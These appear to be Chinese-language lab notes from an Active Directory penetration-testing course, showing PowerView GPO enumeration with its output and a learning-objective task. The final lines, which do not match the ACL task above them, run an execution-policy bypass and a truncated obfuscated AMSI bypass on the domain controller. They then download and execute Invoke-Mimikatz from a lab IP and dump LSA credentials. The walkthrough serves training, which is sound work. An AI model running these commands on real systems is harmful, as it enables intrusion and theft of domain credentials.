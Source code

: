 ##  Enumerate GPO applied on the StudentMachines OU

这里分两步

先获取StudentMachines里OU值里的gplink这个字段的值
```
PS C:\ad>  (Get-NetOU StudentMachines -FullData).gplink
[LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local;0]
```

以上面的gplink作为传入参数，查询符合这个条件的所有GPO
```
PS C:\ad> Get-NetGPO -ADSpath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'


usncreated               : 65831
displayname              : Students
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 4/20/2019 6:22:16 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 123144
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
adspath                  : LDAP://CN={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
distinguishedname        : CN={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/19/2019 7:04:25 AM
versionnumber            : 8
instancetype             : 4
objectguid               : 8ecdfe44-b617-4b9e-a9f9-4d548e5dc7b1
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```

# Learning Objective 3:
Task
● Enumerate following for the dollarcorp domain:
− ACL for the Users group
− ACL for the Domain Admins group
− All modify rights/permissions for the studentx


[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'